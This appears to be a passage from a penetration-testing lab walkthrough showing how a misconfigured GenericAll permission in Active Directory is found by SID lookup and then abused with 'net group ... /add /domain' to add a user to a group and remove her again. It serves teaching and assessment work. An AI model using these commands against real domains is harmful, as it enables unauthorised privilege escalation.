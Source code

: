 # In this case, we have a total of five objects that have the GenericAll permission on the Management Department object. To make sense of this, let's convert all the SIDs into actual names:
PS C:\Tools> "S-1-5-21-1987370270-658905905-1781884369-512","S-1-5-21-1987370270-658905905-1781884369-1104","S-1-5-32-548","S-1-5-18","S-1-5-21-1987370270-658905905-1781884369-519" | Convert-SidToName
...
CORP\Domain Admins
CORP\stephanie
BUILTIN\Account Operators
Local System
CORP\Enterprise Admins
...

# The first SID belongs to the Domain Admins group and the GenericAll permission comes as no surprise since Domain Admins have the highest privilege possible in the domain. What's interesting, however, is to find stephanie in this list. Typically, a regular domain user should not have GenericAll permissions on other objects in AD, so this may be a misconfiguration. This finding is significant and indicates that stephanie is a powerful account.

# When we enumerated the Management Group, we discovered that jen was its only member. As an experiment to show the power of misconfigured object permissions, let's try to use our permissions as stephanie to add ourselves to this group with net.exe.

PS C:\Tools> net group "Management Department" stephanie /add /domain
PS C:\Tools> Get-NetGroup "Management Department" | select member
{CN=jen,CN=Users,DC=corp,DC=com, CN=stephanie,CN=Users,DC=corp,DC=com}

# Now that we have abused the GenericAll permission, let's use it to clean up after ourselves by removing our user from the group:
PS C:\Tools> net group "Management Department" stephanie /del /domain
PS C:\Tools> Get-NetGroup "Management Department" | select member
CN=jen,CN=Users,DC=corp,DC=com

